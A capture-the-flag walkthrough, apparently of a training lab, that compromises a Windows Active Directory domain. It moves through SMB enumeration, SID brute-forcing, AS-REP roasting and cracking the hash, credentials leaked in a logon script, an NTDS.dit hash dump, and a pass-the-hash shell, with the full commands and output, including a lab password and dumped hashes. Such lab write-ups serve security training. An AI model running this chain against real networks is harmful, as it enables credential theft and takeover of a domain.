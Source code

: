 # VulnNet: Roasted

## Enumeration using nmap
<pre>nmap -sV -sC 10.10.227.72 -Pn

Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-21 20:26:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T20:26:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds</pre>

- Port 139 + 445 is open

## Enum4Linux
<pre>enum4linux 10.10.227.72  
Domain Name:VULNNET-RST                                                                                                                           Domain Sid: S-1-5-21-1589833671-435344116-4136949213</pre>

## SMB Enumeration
- Port 139 + 445 is open
- Use `smbclient` to enumerate shares

<pre>smbmap -H 10.10.227.72 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.227.72:445        Name: 10.10.227.72              Status: Guest session   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing</pre>

- Read access to the IPC$ share as `anonymous`
- We are able to list domain users using `lookupsid.py`

## lookupsid.py
- Brute forcing of Windows SIDs to identify users.groups on the target

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers  

<pre>sudo lookupsid.py anonymous@10.10.227.72

[sudo] password for kali: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.227.72
[*] StringBinding ncacn_np:10.10.227.72[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)</pre>

We have discovered the following user accounts:
Administrator  
Guest  
krbtgt  
WIN-2BO8M1OE1M1$  
enterprise-core-vn  
a-whitehat  
t-skid  
j-goldenhand  
j-leet  

### AS-REP Roasting
AS-REP Roasting occurs when a user account has the privilege "Does not require pre-authentication" in Active Directory.  

This means that the account does not need to provide identification before requesting a Kerberos ticket on the user account.

- Use GetNPUsers.py
- Query AS-REP Roastable accounts from Key Distribution Centre using usernames we discovered stored in users.txt  

<pre>GetNPUsers.py VULNNET-RST.local/ -no-pass -usersfile /home/kali/Documents/VulnNet_Roast/users.txt -dc-ip 10.10.227.72
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8a24fbdc2cc549621c14d12a525046e4$74c507233131c5f1c3e8cb7ff409ebaac2abe9c3aa1b9bfb9e652e0bfe1a9580c731a68d652b4ffa2b27211a9a2d8db205fa5fac1690e1d3cf9752cff2e93e21e79ae056c22cafe1d06fa065a4009424e05a60605ed2de250565265ea6c60c4898963f5ab4454c5b5959a048fc56e4be25d6627f46d3bdec2d2aa49de9d3d0781f30d57855f6aa23eb733c59c5d824bb6b546e938a865964349d3aab414ed1a6f21dd68ceab6e7e81c75695bb5954dbfb901459b4ee839775f92c6f48a9fb92c78feb0a1e96b7dba8dda09d45b705aaadd4009d51bbb6a762eae59e8bc01147c84f9894e03bfbaafbf317170fbb249052be02aefa392
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set</pre>

Discovered a hash for user account `t-skid`

![Alt text](<../Images/Kerberos 5,etype hashcat.png>)

Hash is displayed as `Kerberos 5, etype 23, AS-REP`

- Crack the hash using Hashcat
<pre>hashcat -m 18200 /home/kali/Documents/VulnNet_Roast/TGT_ticket.txt /usr/share/wordlists/rockyou.txt</pre>

We now have cracked the password for user account `t-skid`

## Enumerate + Connect to SMB using t-skid account
- Enumerate the shares we can access
<pre>smbmap -H 10.10.250.71 -u t-skid -p '*****'</pre>

- As the Anonymous account earlier, we couldn't access NETLOGON
- Connect to NETLOGON share

<pre>smbclient \\\\10.10.250.71\\NETLOGON -U t-skid
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)</pre>

- Discovered credentials in the .vbs script

strUserNTName = "a-whitehat"  
strPassword = "*********"

## Dump NTDS.dit
- Check if user `a-whitehat` has the privilege to dump hashes 

<pre>secretsdump.py vulnnet-rst/a-whitehat:'bNdKVkjv3RR9ht'@10.10.250.71

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
</pre>

## Evil-WinRM
- Ultimate shell for hacking/pentesting

<pre>evil-winrm -i 10.10.250.71 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d</pre>
